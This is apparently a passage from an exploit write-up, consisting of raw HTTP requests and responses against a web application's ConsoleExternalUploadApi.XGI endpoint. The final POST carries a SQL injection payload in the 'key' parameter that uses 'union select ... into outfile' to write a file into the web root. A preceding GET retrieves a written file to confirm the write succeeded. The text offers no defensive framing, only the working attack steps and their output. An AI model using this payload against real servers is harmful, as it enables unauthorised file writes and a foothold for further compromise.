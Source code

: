 ```http
HTTP/1.1 200 OK
Date: Wed, 12 Apr 2023 08:56:55 GMT
Server: Apache/2.4.10 (Win32) OpenSSL/1.0.2u-fips
Set-Cookie: PHPSESSID=3vtpsg3sk18cr6rgp1nvdmlbm7; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 53
Connection: close
Content-Type: text/html; charset=UTF-8

[result]
result=2
MsgID=1
MsgDesc=ÓÃ»§Ãû»òÃÜÂë´íÎó
```

```http
GET /js/asdxcfsea1.XGI HTTP/1.1
Host: 192.168.21.89:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate


```

```http
HTTP/1.1 200 OK
Date: Wed, 12 Apr 2023 08:57:28 GMT
Server: Apache/2.4.10 (Win32) OpenSSL/1.0.2u-fips
Vary: Accept-Encoding
Content-Length: 12
Connection: close
Content-Type: text/html; charset=UTF-8

1	asd213asd

```

### ConsoleExternalUploadApi.XGI

```http
POST /ConsoleExternalUploadApi.XGI HTTP/1.1
Host: 192.168.21.89:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 99

key=ServerIPType' union select 'test' into outfile '..\\..\\WebRoot\\js\\G8Sx6In.txt&initParams=x&sign=x
```
